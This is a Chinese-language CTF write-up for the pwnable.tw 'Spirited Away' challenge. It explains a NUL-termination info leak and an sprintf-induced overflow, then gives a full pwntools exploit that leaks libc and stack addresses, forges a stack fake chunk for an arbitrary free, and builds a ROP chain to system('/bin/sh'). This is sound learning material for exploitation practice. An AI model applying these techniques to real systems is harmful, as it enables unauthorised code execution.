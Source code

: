 ## 检查

```
$ file spirited_away 
spirited_away: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=9e6cd4dbfea6557127f3e9a8d90e2fe46b21f842, not stripped
$ checksec spirited_away 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，没去符号表，只开了NX

## 分析

程序的功能是写评论，输入姓名、年龄等信息，代码很简单，没什么好说的

## 漏洞点

第一个漏洞点是read函数，没有NULL截断，可以泄漏stack和libc信息

第二个漏洞点是栈溢出，来自一个不太常见的函数 sprintf

```c
sprintf(&v1, "%d comment so far. We will review them as soon as we can", cnt);// 溢出
```

这行中，当cnt大于等于100时，该字符串的最后一个字母n会覆盖掉控制字符数量的nbytes变量，n的ascii码值是0x6e，从而造成comment参数的栈溢出，和name的堆溢出，我们可以通过栈溢出修改name参数内的地址从而形成任意地址free

## sprintf函数

### 函数声明

int sprintf(char *string, char *format [,argument,...]);

### 参数列表

- **string**-- 这是指向一个字符数组的指针，该数组存储了 C 字符串。
- **format**-- 这是字符串，包含了要被写入到字符串 str 的文本。它可以包含嵌入的 format 标签，format 标签可被随后的附加参数中指定的值替换，并按需求进行格式化。format 标签属性是**%[flags][width][.precision][length]specifier**
- **[argument]...**：根据不同的 format 字符串，函数可能需要一系列的附加参数，每个参数包含了一个要被插入的值，替换了 format 参数中指定的每个 % 标签。参数的个数应与 % 标签的个数相同。

### 功能

将format字符串写入到string所在位置

### 返回值

如果成功，则返回写入的字符总数，不包括字符串追加在字符串末尾的空字符。如果失败，则返回一个负数。

## 利用

我们首先泄漏出libc和stack信息（调试查看偏移

然后在栈中构造fake_chunk并利用任意地址free，获取到栈上堆块

最后利用name的溢出进行ROP，可以简单的get shell

## exp

中间出现了一点匪夷所思的问题，我不能直接range(100)，这样会泄漏出错误的东西，即

```python
leave = lambda name,reason,comment : (sa("name: ",name),sa("age: ","1\n"),sa("movie? ",reason),sa("comment: ",comment))
addone = lambda : sa("<y/n>: ","y")

#overflow
for i in range(10):
	leave("aaa","bbb","ccc")
	addone()
```

参考了别的师傅的wp后，改成range(10)和range(90)，可以leak成功

```python
leave = lambda name,reason,comment : (sa("name: ",name),sa("age: ","1\n"),sa("movie? ",reason),sa("comment: ",comment))
addone = lambda : sa("<y/n>: ","y")

#overflow
for i in range(10):
	leave("aaa","bbb","ccc")
	addone()

for i in range(90):
    sa('Please enter your age: ', '1\n')
    sa('Why did you came to see this movie? ', 'c\x00')
    sa('Would you like to leave another comment? <y/n>: ', 'y')
```

经过调试发现，我range(10)次后，已经不需要，准确的说已经无法输入部分信息了，暂时还没想清楚为啥，如果有师傅知道。还请告知：wu.guang.zheng@qq.com

但是又出现了一个令人沮丧的东西：远程打不通

经过尝试，我自己和部分wp会出现timeout，而直接抄的别的师傅的wp，查看交互会经常出现它获取到的信息和我输入的信息不匹配的情况，故我猜测是题目的问题，就先放弃远程打通了

最终exp：

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
#context.log_level = 'debug'

debug = 0
if debug:
	elf = ELF("./spirited_away")
	libc = ELF("./my_ubuntu32_libc.so")
	io = process(elf.path)
else:
	elf = ELF("./spirited_away")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10204)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

leave = lambda name,reason,comment : (sa("name: ",name),sa("age: ","1\n"),sa("movie? ",reason),sa("comment: ",comment))
addone = lambda : sa("<y/n>: ","y")

#overflow
for i in range(10):
	leave("aaa","bbb","ccc")
	addone()

for i in range(90):
    sa('Please enter your age: ', '1\n')
    sa('Why did you came to see this movie? ', 'c\x00')
    sa('Would you like to leave another comment? <y/n>: ', 'y')

#leak libc
payload1 = 'a'*0x14 + "bbbb"
leave("aaa",payload1,"aaa")
ru("bbbb")
libc_addr = u32(r(4)) -7 -libc.sym["_IO_file_sync"]
addone()


system_addr = libc_addr + libc.sym['system']
binsh_addr = libc_addr + libc.search("/bin/sh").next()

#leak stack
payload2 = 'a'*0x34 + "bbbb"
leave("aaa",payload2,"aaa")
ru("bbbb")
stack_addr = u32(r(4)) - 0x70
log.warn("leak:0x%x"%stack_addr)
addone()
#fake chunk

reason = p32(0) + p32(0x41) + 'a'*0x38 + p32(0) + p32(0x11)
comment = 'a'*0x54 + p32(stack_addr+8)
leave('aaa',reason,comment)
addone()


#heap overflow
name = 'a'*0x4c + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
leave(name,'aaa','aaa')
sa('Would you like to leave another comment? <y/n>: ', 'n')

io.interactive()

```

ps：原来题目名是千与千寻，老二次元了

参考：

- [pwnable.tw 11~18题 writeup](https://veritas501.space/2018/03/04/pwnable.tw%2011~18%E9%A2%98%20writeup/)
- [pwnable.tw Spirited Away writeup](http://blog.eonew.cn/archives/1133)
- [pwnable.tw Spirited Away](https://j-kangel.github.io/2020/06/23/pwnable-tw-Spirited-Away/#%E5%89%8D%E8%A8%80)


